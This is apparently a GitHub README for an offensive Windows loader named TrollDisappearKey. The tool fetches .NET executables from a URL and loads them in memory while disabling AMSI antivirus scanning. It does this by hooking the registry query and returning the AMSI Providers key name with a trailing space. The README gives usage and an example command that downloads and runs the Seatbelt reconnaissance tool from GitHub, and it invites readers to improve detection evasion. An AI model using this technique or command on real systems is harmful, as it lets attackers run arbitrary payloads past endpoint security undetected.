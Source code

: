 # TrollDisappearKey
TrollDisappear.exe is a loader which allows loading of .exe assemblies (provide URL to assembly) without amsi scanning taking place during assembly.load()

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)

We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load and .net assembly we want  
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

# What's unique?
concept is hooking / byte patching so nothing much really. 
This works specifically for clr bypass not powershell. It used to work for powershell >1 year ago but something updated and it broke. 
  
## Usage 
```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader
![Image](https://github.com/user-attachments/assets/246e956a-9a64-45c8-b3a8-0acf7b7cb5b8)

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Credits
1. Modified hooking library from https://github.com/liulilittle/NetHook

## Disclaimer
Should only be used for educational purposes!

